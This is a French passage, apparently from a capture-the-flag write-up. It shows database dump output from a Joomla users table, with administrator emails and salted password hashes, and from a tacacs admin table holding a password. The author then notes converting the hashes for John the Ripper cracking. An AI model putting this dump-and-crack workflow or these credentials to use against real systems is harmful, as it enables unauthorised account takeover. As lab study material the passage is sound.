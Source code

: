 ```
| 62 | 25  | Administrator | admin@email.fuku | 0     | admin    | Super Administrator | 8dce0c268a72ec988999cb5a59fadd35:K30ubzQvaQaHbs0peZrM78GBMWbe5KQb | 1         | <blank>    | 2015-08-07 10:58:51 | 2015-08-09 13:32:29 |
| 63 | 25  | Gizmo         | gizmo@fuku.email | 0     | gizmo    | Super Administrator | 6da55fdfcf53a4b3a07390921866cc18:qECsCP9t5NwPILY77j6hGM2MrgX4Je39 | 0         | <blank>    | 2015-08-07 01:01:34 | 2015-08-17 14:31:04 |
+----+-----+---------------+------------------+-------+----------+---------------------+-------------------------------------------------------------------+-----------+------------+---------------------+---------------------+
```

La base de données `tacacs` ne semble pas avoir un role quelconque :

```
Database: tacacs                                                                                                                                                                                                 
[16 tables]
+--------------+
| user         |
| access       |
| accounting   |
| acl          |
| admin        |
| attribute    |
| command      |
| component    |
| config       |
| contact_info |
| failure      |
| host         |
| node         |
| profile      |
| vcomponent   |
| vendor       |
+--------------+
```

il y a tout de même des identifiants mais qui ne semblent pas utilisables :

```
Database: tacacs
Table: admin
[1 entry]
+-------+------+-------+----------+---------------+
| uid   | link | vrows | priv_lvl | password      |
+-------+------+-------+----------+---------------+
| admin | 0    | 25    | 15       | ht70zyjHsMl3A |
+-------+------+-------+----------+---------------+
```

J'ai recopié les hashs du Joomla! et les ait convertit dans un format spécifique pour `JohnTheRipper` :
